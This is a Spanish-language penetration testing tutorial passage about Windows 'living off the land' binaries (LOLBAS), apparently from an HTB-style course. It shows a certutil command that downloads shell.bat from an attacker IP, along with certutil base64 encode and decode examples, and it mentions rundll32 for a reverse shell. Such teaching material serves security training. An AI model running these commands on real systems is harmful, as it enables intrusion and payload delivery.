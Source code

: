 ## Living Off The Land Binaries and Scripts (LOLBAS)

El [LOLBAS project](https://lolbas-project.github.io/) documenta binaries, scripts y libraries que se pueden usar para técnicas de "living off the land" en sistemas Windows. Cada uno de estos binaries, scripts y libraries es un archivo firmado por Microsoft que es nativo del sistema operativo o se puede descargar directamente desde Microsoft y tiene funcionalidades inesperadas útiles para un atacante. Algunas funcionalidades interesantes pueden incluir:

| Code execution         | Code compilation | File transfers     |
|------------------------|-------------------|--------------------|
| Persistence            | UAC bypass        | Credential theft   |
| Dumping process memory | Keylogging        | Evasion            |
| DLL hijacking          |                   |                    |

### Transferring File with Certutil

Un ejemplo clásico es [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), cuyo uso previsto es para manejar certificados pero también se puede usar para transferir archivos descargando un archivo al disco o codificando/decodificando un archivo en base64.

```r
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

### Encoding File with Certutil

Podemos usar el flag `-encode` para codificar un archivo usando base64 en nuestro host de ataque Windows y copiar el contenido a un nuevo archivo en el sistema remoto.

```r
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

### Decoding File with Certutil

Una vez creado el nuevo archivo, podemos usar el flag `-decode` para decodificar el archivo de vuelta a su contenido original.

```r
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```

Un binary como [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) se puede usar para ejecutar un archivo DLL. Podríamos usar esto para obtener un reverse shell ejecutando un archivo .DLL que descargamos en el host remoto o alojamos nosotros mismos en un SMB share.
